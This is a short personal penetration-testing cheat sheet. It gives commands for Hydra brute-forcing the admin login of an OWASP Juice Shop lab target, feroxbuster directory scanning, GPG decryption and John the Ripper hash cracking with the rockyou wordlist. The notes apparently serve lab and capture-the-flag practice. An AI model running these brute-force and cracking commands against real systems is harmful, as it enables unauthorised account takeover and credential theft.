 # InfoSec notes

## Hydra

### HTTP Post

Example: Brute-force `admin` login of the OWASP Juice-Shop

Authentication `POST` request looked like this in Browser DevTools

```shell
curl 'http://10.10.114.54/rest/user/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.114.54/' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Cookie: io=5yIoLc2JuE6AcrUbAAAA; language=en; cookieconsent_status=dismiss' --data-raw '{"email":"hello@example.com","password":"asdf"}'
```

with response 401 `Invalid email or password.`

This converts to `hydra` as follows

```bash
# -V verbose
# `-l admin@juice-sh.op` the admin's email
hydra -v -V -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 10.10.114.54 http-post "/rest/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Invalid email or password."

# general layout (note: single user -l vs user list -L, same for password)
#  hydra -L <USER> -P <Password> <IP Address> http-post “<Login Endpoint>:<Request Body>:<Error Message>”
```

## Feroxbuster

`feroxbuster -u http://10.10.80.188 --no-recursion -vv --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt`

## Tools for cracking RSA

- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)

## Share files with Kali VM

[gofile](https://gofile.io/uploadFiles)

## GPG

```bash
gpg --import private.key
gpg --decrypt encrypted.file > plain.txt
```

## Hash cracking

```bash
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py < HASH_FILE

gzip -d /usr/share/wordlists/rockyou.txt.gz
# Note: standard hash types might have prefix `raw-` e.g. format=raw-md5
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=FORMAT HASH_FILE

john --list=formats | grep -i md5
```
